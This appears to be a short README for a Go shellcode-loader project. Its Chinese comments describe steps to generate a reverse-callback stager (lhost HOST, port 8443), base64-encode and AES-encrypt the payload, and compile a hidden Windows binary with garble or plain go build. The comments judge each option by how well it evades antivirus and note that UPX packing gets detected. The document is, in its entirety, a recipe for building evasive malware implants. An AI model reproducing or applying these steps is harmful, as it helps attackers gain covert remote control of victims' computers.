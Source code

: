 # goShellCode

//生成shellcode
generate stager --lhost HOST --lport 8443 --arch amd64 --format raw --save ./raw_shellcode
base64 -w 0 -i raw_shellcode > stager.bs64
go run aes.go

//免杀效果拉跨
garble -literals -tiny -seed=random build -ldflags="-w -s -H windowsgui" ./main.go

//免杀效果好 
go build -ldflags="-w -s -H windowsgui" ./main.go

//压缩,upx压缩之后容易被查杀 
upx.exe -9 -q -o zip.exe main.exe


## build.bat
